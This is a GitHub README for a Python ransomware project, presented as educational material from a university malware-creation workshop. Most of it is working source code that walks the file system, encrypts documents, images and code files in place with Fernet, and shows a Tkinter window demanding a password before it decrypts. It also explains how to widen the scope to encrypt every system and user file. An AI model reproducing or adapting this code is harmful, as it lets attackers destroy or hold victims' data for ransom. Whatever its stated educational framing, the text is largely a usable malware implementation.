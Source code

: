  <a target="_blank" href="Language" title="Language"><img src="https://img.shields.io/badge/language-python 3+-GREEN"></a>
# Ransome
Ransomeware is a type of malware that has the ablity to encrypt all the files on the device.
This code is written is python 3 for educational purposes only used in the Spyro event workshop malware creation organised by Engineers Spark FST and Google developers Club ENIT.
The code author is cybereagle2001 and the workshop was animated by the author.

## All requirements

tkinter : to create the graphical design 

os  : needed in file access

cryptography.fernet : the encryption algorithm used by the ransome

string : to generate the key

random : generation of the key

## Code explication 
this part of the code presents the main program. The ransome is made for educational purposes so we made sure that we are going to encrypt specified files only in the directory. 

For root,firs,files in os.walk(".") will allow us to search all the files in the directory and the sub directories if we are going to change '.' ==> '/' or 'C:\' depending on the operation system the ransome is going to encrypt all the system and users files.
```markdown
encrypted_ext=(".mp4",".py",".txt",".docx",".odt",".xlsx",".gif",".png",".jpeg",".pdf")

victim_file=[]
for root,dirs,files in os.walk('.'):
    for file in files:
        if (file =="cyber_ran.py"):
            continue
        else:
            file_path,file_ext= os.path.splitext(root+'/'+file)
            if file_ext in encrypted_ext:
                victim_file.append(root+'/'+file)
```

encrypt(victim_file) is the function that I wrote in order to encrypt the stored files using the fernet algorithm for that we need to generate a key and then use it to encrypt the files. To do so we are going to retrieve the content of the files as binary encrypt it and overright the files. this process is done by this code :

```
def encrypt(victim_file):
    key= Fernet.generate_key()
    for loop in victim_file:
        with open(loop,"rb") as file:
            content= file.read()
        content_enc= Fernet(key).encrypt(content)
        with open(loop,"wb") as file:
            file.write(content_enc)
```

after the encryption process we are going to generate the password that we will need to launch the decryption process to do so I wrote two main functions the first one is password_gen and the second one of decrypt.

Decrypt is going to reverse the encryption algorithm and use the fernet key to decrypt the files content.

the password generator is going to generate a random string. That string will allow the ransome to identify if the victim paied the ransome or not. If the input is equivalent to the value of the generated password it will start the decryption process and this is made by this code 

```
def decrypt(password,key):
    def button_command(password,key):
        key1=entry1.get()
        i=0
        if (key1 == password):
            for loop in victim_file:
                with open(loop,"rb") as file:
                    content= file.read()
                content_dec= Fernet(key).decrypt(content)
                with open(loop,"wb") as file:
                    file.write(content_dec)
            print("good boy you did well!!")
            quit()
        else:
             print("you are hacked!! don't play dump")

    root = Tk()
    root.title("ALL files are encrypted")
    root.geometry('400x200')
    entry1= Entry(root,width=200)
    entry1.pack()
    Button(root,text="decrypt",command=lambda:button_command(password,key)).pack()
    root.mainloop()

def password_gen(N=50):
	return ''.join(random.choice(string.ascii_uppercase + string.digits) for _ in range(N))
```

## Licence 
[MIT](https://choosealicense.com/licenses/mit/) ©cybereagle2001

Original author : cybereagle2001 
